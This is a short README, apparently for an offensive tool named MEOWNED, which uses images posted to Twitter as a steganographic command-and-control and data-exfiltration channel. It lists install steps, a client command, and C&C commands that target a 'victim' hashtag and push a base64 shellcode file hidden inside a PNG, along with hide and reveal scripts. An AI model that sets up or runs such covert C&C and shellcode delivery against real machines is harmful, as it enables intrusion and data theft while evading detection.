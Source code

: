 # MEOWNED
MEOWNED (MEssages Over tWitter ¿stegaNography? Exfiltrating Data)

## Installation
* pip3 install python-twitter
* pip3 install Stegano

## Usage
### Source Image
The image should be a .png, preferably by passed through http://ravenworks.ca/twitimagefix/ in order to prevent twitter image compression.

### Client 
* > python meopwn_cli

### C&C
* > python meopwn_srv [victim_hashtah] [image] [message]
* > python3 meopwn_srv.py victim_hastag grumpy.png -f "shellcodes/messageBox.b64"
* > python3 reveal.py "./output-imgs/grumpy1.png"
* > python3 hide.py "./source-imgs/grumpy.png" "./output-imgs/grumpy1.png" "SECRET"



